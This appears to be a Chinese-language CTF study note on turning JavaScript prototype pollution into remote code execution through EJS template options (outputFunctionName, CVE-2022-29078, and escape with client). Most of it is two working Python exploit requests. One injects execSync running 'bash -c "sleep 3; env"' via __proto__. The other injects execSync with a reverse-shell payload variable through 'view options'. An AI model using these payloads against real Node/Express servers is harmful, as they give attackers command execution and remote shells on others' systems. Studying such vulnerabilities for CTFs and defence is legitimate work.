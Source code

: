 tags:: CTF/JS/原型链污染, CTF/NodeJS/EJS, CTF/NodeJS

- > 原型链污染+EJS=RCE
- # 原理
	- ejs在编译模板时会将选项中的某些项直接拼接到编译结果中执行，而选项是存储在一个对象中的，我们只需要污染这些属性即可
	- 即使没有原型链污染也可以在express中的`res.render('xxx', {options...})`处直接传入这些选项进行RCE
- # outputFunctionName
	- CVE-2022-29078
	- ```python
	  r = base_post(url, headers = headers, json = {
	      "__proto__": {
	          "outputFunctionName": "a=1;return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"sleep 3; env\"');//"
	      }
	  })
	  print(r.text)
	  ```
- # escape
	- 参考：
		- 我是在做[这题](((654dda41-c3ee-4d76-b945-69080bd6539a)))的时候挖出来的。。。
		- [别人的文章](https://www.inhann.top/2023/03/26/ejs/)
	- 原理和`outputFunctionName`是一样的，payload都会被拼接到编译产物中
	- 貌似也可以用`escapeFunction`?
	- 让client为真，并传入payload即可
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString114() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  r = base_post(
		      url + "/create",
		      json={
		          "name": "global",
		          "settings": {
		              "view options": {
		                  "client": "1",
		                  "escape": ejs_escape,
		              }
		          }
		      },
		  )
		  print(r.text)
		  ```